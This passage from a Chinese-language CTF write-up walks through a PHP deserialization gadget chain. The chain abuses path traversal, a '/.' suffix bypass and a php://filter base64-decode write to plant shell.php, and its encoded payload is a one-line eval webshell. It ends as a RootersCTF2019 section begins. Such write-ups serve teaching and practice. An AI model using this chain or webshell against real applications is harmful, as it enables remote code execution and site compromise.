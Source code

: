 serialize 指定为 system

虽然传入的参数里面包含了 json, 但由于反引号的优先级较高, 仍然是可以执行任意命令 (无回显)

第二个思路是利用 linux 目录穿越来绕过随机字符的限制, 以及通过 `/.` 绕过 `.php` 后缀检测创建文件

```php
<?php

class A {

    protected $store;
    protected $key;
    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
    }

}

class B {

}

$b = new B();
$b->options = array(
    'expire' => '123',
    'prefix' => 'php://filter/write=convert.base64-decode/resource=uploads/',
    'serialize' => 'strval'
);

$a = new A($b, '/../shell.php/.', null);
$a->autosave = false;
$a->cache = [];
$a->complete = 'aaaPD9waHAgZXZhbCgkX1JFUVVFU1RbMTIzNF0pOz8+';

echo urlencode(serialize($a));
```

注意只有 uploads 目录可写, 剩下的构造跟之前那题一模一样

![image-20221221204320195](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212212043335.png)

## [RootersCTF2019]ImgXweb

robots.txt

```
User-agent: * 
Disallow: /static/secretkey.txt
```
